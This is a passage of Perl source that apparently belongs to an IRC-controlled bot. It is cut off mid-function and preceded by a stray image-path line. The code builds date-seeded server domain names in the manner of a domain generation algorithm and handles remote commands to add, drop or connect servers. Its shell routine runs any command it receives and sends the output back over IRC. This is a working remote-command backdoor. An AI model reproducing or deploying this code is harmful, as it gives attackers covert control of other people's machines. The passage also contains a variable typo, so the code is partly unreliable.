     my $t = 0;
	my $len = length($chars);

	print "len = ".$len."\n";

	my $url = '';
	$t = ($t + $year) % $len; $url .= substr $chars, $t, 1;
	$t = ($t + $mon)  % $len; $url .= substr $chars, $t, 1;
	$t = ($t + $day)  % $len; $url .= substr $chars, $t, 1;
	$t = ($t + $hour) % $len; $url .= substr $chars, $t, 1;
	$t = ($t + $year + $mon)  % $len; $url .= substr $chars, $t, 1;
	$t = ($t + $year + $day)  % $len; $url .= substr $chars, $t, 1;
	$t = ($t + $year + $hour) % $len; $url .= substr $chars, $t, 1;
	$t = ($t + $mon + $day)  % $len; $url .= substr $chars, $t, 1;
	$t = ($t + $mon + $dhour)  % $len; $url .= substr $chars, $t, 1;
	$t = ($t + $day + $hour) % $len; $url .= substr $chars, $t, 1;
	#$t = ($t + $day + $sec) % $len; $url .= substr $chars, $t, 1;

	print "generated ".$prefix.$url.$suffix;
	return $prefix.$url.$suffix;
}
#--------------------------------------------------------------------

sub process {
	my $funcarg = $_[0];

	if ($funcarg =~ /^addserv (.*)/){
		addServer($1);
	}
	elsif ($funcarg =~ /^delserv (.*)/){
		delServer($1);
	}
	elsif ($funcarg =~ /^connect\s+(\S+)\s+(\S+)\s+(\S+)/) {
		{ conectar("$2", "$1", "$3")	}
	}
}

sub shell {
   my $target=$_[0];
   my $comando=$_[1];
   $SIG{CHLD} = \&REAPER;
   if ($comando =~ /cd (.*)/) {
	  chdir("$1") || msg("$target", "No such file or directory");
	  return;
   } elsif ($pid = fork) {
	  waitpid($pid, 0);
   } else {
	  if (fork) {
	   exit;
	  } else {
		 my @resp=`$comando 2>&1 3>&1`;
		 my $c=0;
		 foreach my $linha (@resp) {
			$c++;
			chop $linha;
			sendraw($IRC_cur_socket, "PRIVMSG $target :$linha");
